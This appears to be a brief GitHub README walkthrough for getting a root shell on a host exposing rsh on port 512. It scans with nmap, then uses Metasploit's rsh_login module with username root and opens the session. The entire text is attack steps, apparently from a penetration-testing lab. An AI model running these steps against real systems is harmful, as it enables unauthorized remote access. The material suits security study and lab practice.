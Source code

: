 # Port-512-netkit-rsh-rexecd
1.nmap -sV (target ip)
![image](https://github.com/thanawut2903/Port-512-netkit-rsh-rexecd/assets/159118913/8a152fce-e5ea-459e-9eb1-1aaf7e9f1856)

2.msfconsole

3.msf 6 > use auxiliary/scanner/rservices/rsh_login

![image](https://github.com/thanawut2903/Port-512-netkit-rsh-rexecd/assets/159118913/07be47df-0edf-49c2-b87d-84685bdc0f44)

4.msf 6 > set RHOST (target ip)

5.msf6 > set username root

6.msf 6 > run

![image](https://github.com/thanawut2903/Port-512-netkit-rsh-rexecd/assets/159118913/9477a2ed-c8ae-4e32-ba9f-ff2fa9b66004)

7.msf 6 > sessions -i 1


![image](https://github.com/thanawut2903/Port-512-netkit-rsh-rexecd/assets/159118913/375fb615-d5e8-4bbd-99da-2e94538b131e)



Reference form : https://www.youtube.com/watch?v=zyILGFWvAVs
